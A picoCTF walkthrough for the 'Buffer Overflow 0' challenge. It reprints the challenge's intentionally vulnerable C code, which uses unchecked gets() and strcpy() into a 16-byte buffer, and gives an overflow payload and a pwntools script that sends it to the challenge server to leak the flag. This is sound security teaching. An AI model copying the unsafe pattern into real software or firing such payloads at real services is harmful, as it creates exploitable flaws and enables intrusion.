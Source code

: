 
# Exploiting Buffer Overflow 0 Step-by-Step | picoCTF Walkthrough


## Challenge Overview

**Challenge Name**: Buffer Overflow 0
**Category**: Binary Exploitation
**What We Get:**
A compiled binary (`vuln`)
The source code (`vuln.c`)


![Image description](https://github.com/shalintha/CTF-writeups/blob/master/assets/buffer-overflow-0.png)

## Understanding the Challenge
The challenge gives us a binary file (`vuln`) and its source code (`vuln.c`). The goal is to exploit a buffer overflow vulnerability to change a variable's value and make the program reveal the flag. Sounds fun, right? Let's get started!

## Understanding the Code
First, let's take a look at the source code to see what we're dealing with:

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

```

## What’s Happening Here?

**1. Buffer Overflow Vulnerability:**
The vuln function has a buffer (`buf2`) that’s only 16 bytes long. The program uses `strcpy` to copy user input into this buffer, but it doesn’t check the length of the input. This means if we give it more than 16 bytes, we can overwrite other parts of memory!

**2. Signal Handler:**
If a segmentation fault occurs (e.g., due to a buffer overflow), the `sigsegv_handler` function is triggered, which prints the flag.

**3. User Input:**
The main function reads user input using `gets`, which is notoriously unsafe because it doesn’t limit the amount of input. This input is then passed to the `vuln` function.

**4. Key Takeaways:**
The program reads the flag from `flag.txt` and stores it in a global variable flag.
The `gets(buf1)`; function is used, which is dangerous because it doesn’t check input length.
The function `vuln()` uses `strcpy(buf2, input);`, which can lead to buffer overflow since `buf2` is only 16 bytes long.
If we trigger a segmentation fault `(SIGSEGV)`, the handler will print the flag!

## Exploitation Plan
To solve this challenge, we need to:

1. **Overflow the Buffer:** Send more than 16 bytes of input to cause a buffer overflow.

2. **Trigger a Segmentation Fault:** The overflow will cause the program to crash, triggering the `sigsegv_handler` and printing the flag.

We can use the given binary and provide an oversized input to trigger a segmentation fault and leak the flag:

```python
python3 -c 'print("A" * 32)' | ./vuln
```

Or we can use the given remote server as below as well.

## Step 1: Creating the Payload
We need to send an input that:

- Fills the 16-byte buffer in the `vuln` function.

- Overflows the buffer to cause a segmentation fault.

In Python, we can create this payload like this:

```python
payload = b"A" * 32  # More than enough to overflow the buffer
```

## Here’s what’s happening:

`b"A" * 32:` Sends 32 bytes of the letter `A`. This is way more than the 16 bytes the buffer can hold, so it will overflow and cause a crash.

## Step 2: Send the Payload
We’ll use a Python script to send our payload to the remote server. Here’s the script:

```python
from pwn import *

# Connect to the challenge server
conn = remote('saturn.picoctf.net', 51086)

# Creating the payload
payload = b"A" * 32

# Send the payload
conn.sendline(payload)

# Receive the flag
print(conn.recvall().decode())

```

## What’s This Script Doing?

1. Connecting to the Server:
The `remote` function connects to the challenge `server at saturn.picoctf.net` on port `51086`.

2. Sending the Payload:
The `sendline` function sends our crafted payload to the server.

3. Receiving the Flag:
The `recvall` function grabs the server’s response, which should include the flag.

## Step 3: Run the Script

Save the script as `exploit.py` and run it:

```python
python3 exploit.py
```

If everything works correctly, you’ll see the flag printed on your screen! 🎉

## What Happened?
When we send more than 16 bytes of input, the extra data overflows the `buf2` buffer and corrupts the program’s memory. This causes a segmentation fault, which triggers the `sigsegv_handler` function. The handler then prints the flag for us.

## Final Thoughts
This challenge is a great way to learn about buffer overflows and how they can be exploited to manipulate a program’s behavior. By causing a crash, we can trigger a signal handler that reveals the flag. Once you understand the basics, you can tackle more advanced challenges!

Flag: `picoCTF{...}` (You’ll see the actual flag when you run the exploit!)

Happy hacking! 😄 If you have any questions or run into issues, feel free to ask. Good luck with the rest of picoCTF! 🚀






